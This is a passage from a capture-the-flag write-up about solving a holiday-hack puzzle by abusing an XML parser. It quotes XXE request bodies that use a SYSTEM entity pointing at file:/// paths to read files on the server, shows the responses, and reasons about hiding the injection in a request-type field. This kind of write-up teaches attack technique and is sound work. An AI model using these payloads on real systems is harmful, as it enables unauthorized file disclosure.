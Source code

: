 So red, blue struck out.. How about trying silver?  
```javascript
"body": "<?xml version='1.0' ?><!DOCTYPE root   [ <!ENTITY xxe SYSTEM 'file:///app/static/images/x_phial_pholder_2022/silverring.txt' >]> <root><imgDrop>&xxe;</imgDrop><who>princess</who><reqType>xml</reqType></root>",
```
That returns 
```json
{
    "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
    "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```
Another day, another supersecretsomething.png.. we'll fetch that too. 
![Pasted image 20230105000442](images/Pasted%20image%2020230105000442.png)

This turns out to be a picture of a red ring with text "goldring_to_be_deleted.txt " so we request that in XML:
```javascript
"body": "<?xml version='1.0' ?><!DOCTYPE root   [ <!ENTITY xxe SYSTEM 'file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt' >]> 
```
and receive the response:
```json
{
    "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
 ...
```
### Fair Trade: Silver for Gold
Now we've reached the (IMHO) most obtuse part of the puzzle.  I would NEVER have gotten this without the help of long suffering concierges on Discord. Playing Puzzle Designer again, I think we are supposed to piece these clues:
- The princess really wants a silver ring
- You really want the golden ring
- The princess's last message mentions keywords REQ and TYPE, we are supposed to put them together for the field REQTYPE. 
- The JSON or XML request contains the following elements:
	- **imgDrop**
		- Usually img1..4 for json requests, or a trigger for XXE (&xxe;) with the ENTITY pointing to a known file location.
		- We haven't guessed the silver ring file for XXE, so we will try img1 which is the silver ring's locator using json.
	- **who**
		- Has to be princess, fountain doesn't speak this tongue.
	- **reqType**
		- So far, values have been json or xml.
		- We still haven't found a place to mention the gold ring to the princess, plus the princess gave the hint of using REQ + TYPE.  So we use this field to trigger XXE, and have the file point to the goldring file we saw earlier. 
